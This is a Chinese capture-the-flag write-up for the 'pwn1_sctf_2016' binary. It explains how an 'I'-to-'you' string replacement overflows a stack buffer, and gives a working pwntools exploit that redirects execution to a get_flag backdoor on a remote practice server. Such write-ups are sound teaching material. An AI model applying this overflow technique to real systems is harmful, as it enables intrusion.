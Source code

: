 # pwn1 sctf 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1_sctf_2016
[*] '/root/pwn1_sctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数只调用了一个`vuln`函数，该函数如下

```c++
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```

查找函数表发现后门函数`get_flag`

```c++
int get_flag()
{
  return system("cat flag.txt");
}
```

## 思路分析

1. 目前信息
   - 变量`s`处可写入32字节数据
   - s距离返回地址的偏移量为`0x3c+4>32`，不够溢出
   - 存在后门函数
2. replace函数
   - 查看后发现其作用为循环检测将我们输入的字符`I`替换为字符`you`
3. 思路
   - `replace`函数在字符替换的过程中将1个字节替换为了3个字节的数据，所以理论上可以通过输入21个`I`加1个`a`的方式溢出到返回地址处，将该处覆盖为后门函数的地址即可获得`flag`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwn1_sctf_2016/pwn1_sctf_2016'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 28185)
elf = ELF(pwnfile)
backdoor = elf.symbols['get_flag']
payload = flat(['I'*21, 'a', backdoor])
io.sendline(payload)
io.interactive()
```
